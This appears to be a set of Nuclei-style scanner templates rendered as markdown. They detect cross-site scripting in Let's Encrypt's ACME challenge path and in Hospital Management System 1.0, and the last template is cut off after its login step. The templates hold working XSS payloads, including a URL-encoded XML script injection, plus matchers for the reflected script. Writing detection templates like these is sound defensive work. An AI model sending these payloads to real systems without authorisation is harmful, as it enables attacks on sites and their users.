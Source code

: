 **Type - word**
- words
    1. ">\<script>alert(document.domain)\</script>
- part - body

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. Content-Type: text/html
- part - header

---
# Let's Encrypt - Cross-Site Scripting
## Description
- Let's Encrypt contains a cross-site scripting vulnerability when using the the ACME protocol to issue SSL certificates.
- severity - high
- tags - xss,acme
## Requests
- Method - GET
### URL
- {{BaseURL}}/.well-known/acme-challenge/%3C%3fxml%20version=%221.0%22%3f%3E%3Cx:script%20xmlns:x=%22http://www.w3.org/1999/xhtml%22%3Ealert%28document.domain%26%23x29%3B%3C/x:script%3E
### Matchers

**Type - word**
- words
    1. \<?xml version="1.0"?>\<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)\</x:script>

**Type - word**
- words
    1. /xml
    2. /html

---
# Hospital Management System 1.0 - Cross-Site Scripting
## Description
- Hospital Management System 1.0 contains a cross-site scripting vulnerability via the searchdata parameter in doctor/search.php.

- severity - high
- tags - hms,hospital,cms,xss,authenticated
## Requests
### Step - 1
```
POST /hms/doctor/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}password={{password}}&submit=

```